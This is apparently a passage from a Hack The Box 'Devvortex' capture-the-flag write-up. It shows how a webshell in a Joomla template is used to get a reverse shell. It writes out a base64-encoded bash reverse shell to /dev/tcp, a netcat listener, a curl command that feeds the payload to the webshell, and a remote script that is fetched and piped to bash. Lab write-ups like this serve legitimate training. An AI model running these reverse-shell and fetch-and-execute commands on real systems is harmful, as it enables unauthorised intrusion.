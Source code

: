```bash
```
It seems there's a cronjob on the box that is resetting the `error.php` page fairly often, so i have to send my reverse shell quickly. 

To avoid issues with special characters, I base64 encode my bash revevrse shell, and then send that to the webshell and decode it and pipe it to bash
```bash
# I add some spaces in certain places to get rid of any "+" or "=", as they can get funky in webservers
echo 'bash -i  >& /dev/tcp/10.10.15.34/9001 0>&1  ' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMzQvOTAwMSAwPiYxICAK

# Start netcat listener
nc -lvnp 9001

# Payload sent to webshell. Echo the b64, pipe into base64 to be decoded, and pipe that into bash
curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php -X POST --data "c=echo+'YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMzQvOTAwMSAwPiYxICAK'|base64+-d|bash"
```
Interestingly, I don't get a response. I create a `www` directory and start a python http server there. I then `curl` it with the web shell, and i get a hit.
![curl test](Sun-26-2023_02-10.png)
I then write a bash rev shell and place it in my webserver directory
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.10/9001 0>&1
```
With the webshell, I curl this bash revshell and pipe it to bash, and catch it on my netcat listener.
![revshell](Sun-26-2023_02-10_1.png)
```bash
# Start a python http server on port 80
python3 -m http.server 80

# Start a netcat listener on port 9001
nc -lvnp 9001

```
